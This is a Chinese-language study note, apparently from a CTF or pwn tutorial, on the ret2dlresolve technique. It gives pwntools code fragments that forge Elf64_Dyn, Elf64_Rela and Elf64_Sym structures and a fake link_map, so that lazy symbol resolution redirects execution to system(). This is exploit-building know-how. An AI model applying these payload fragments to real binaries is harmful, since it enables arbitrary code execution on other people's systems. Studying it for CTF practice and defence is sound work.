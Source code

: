 # 需要构造的内容
1、Dyn结构体
其中有d-tag和d_ptr
d_tag：没有用 设0
d_ptr：指向伪造的Elf64_Rela结构体
d-ptr = p64(fake_link_map_addr + 0x18) 

```
fake_Elf64_Dyn = b""
fake_Elf64_Dyn += p64(0)    #d_tag  从link_map中找.rel.plt不需要用到标签， 随意设置
fake_Elf64_Dyn += p64(fake_link_map_addr + 0x18)  #d_ptr  指向伪造的Elf64_Rela结构体，由于reloc_offset也被控制为0，不需要伪造多个结构体
```


2、Elf64_Rela结构体
背下来这句话：
`*rel_addr = l->addr + reloc_offset*`
```
r_offset: p64(fake_link_map_addr - offset)
r_offset用于保存解析后的符号地址写入内存的位置（绝对地址）(offset指的是system - __libc_start_main)
r_info: 7
r_addend: 0
```

```
offset = 0x24c50    # system - __libc_start_main
fake_Elf64_Rela = b""
fake_Elf64_Rela += p64(fake_link_map_addr - offset)  # r_offset rel_addr = l->addr+reloc_offset，直接指向fake_link_map所在位置令其可读写就行
fake_Elf64_Rela += p64(7)               # r_info index设置为0，最后一字节必须为7
fake_Elf64_Rela += p64(0)               # r_addend  随意设置
```

3、Elf64_Sym
st_name:随意设置 0
st_info, st_other, st_shndx st_other非0以避免进入重定位符号的分支 b'AAAA'
st_value 已解析函数的got表地址-8
st_size 随意设置 0
```
fake_Elf64_Sym = b""
fake_Elf64_Sym += p32(0)                # st_name 随意设置
fake_Elf64_Sym += b'AAAA'                # st_info, st_other, st_shndx st_other非0以避免进入重定位符号的分支
fake_Elf64_Sym += p64(main_got-8)       # st_value 已解析函数的got表地址-8，-8体现在汇编代码中，原因不明
fake_Elf64_Sym += p64(0)                # st_size 随意设置
```

